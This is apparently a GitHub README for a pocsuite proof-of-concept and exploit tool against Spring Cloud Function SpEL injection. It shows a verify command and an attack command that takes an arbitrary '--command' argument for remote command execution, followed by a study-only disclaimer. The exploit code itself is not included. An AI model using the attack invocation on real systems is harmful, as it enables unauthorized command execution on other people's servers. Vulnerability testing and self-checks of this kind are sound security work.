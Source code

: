 # Spring-Cloud-Function-SpEL
## Spring-Cloud-Function-SpEL_POC_EXP
### POC:
pocsuite -r Spring-Cloud-Function-SpEL_POC_EXP.py -u url --verify
![poc](https://user-images.githubusercontent.com/54984589/160617916-6e1a6daa-eade-4579-a2ec-79069d015c55.gif)
### EXP:
pocsuite -r Spring-Cloud-Function-SpEL_POC_EXP.py -u url --attack --command "[command]"
![exp](https://user-images.githubusercontent.com/54984589/160618090-3c9aa365-11b5-49e1-969b-e74463ee2a47.gif)
# 免责声明
## 此工具仅用于学习、研究和自查。不应将其用于非法目的。使用本工具产生的一切风险与我无关！
# Disclaimer
## This tool is for study, research, and self-examination only. It should not be used for illegal purposes. All risks arising from the use of this tool have nothing to do with me!
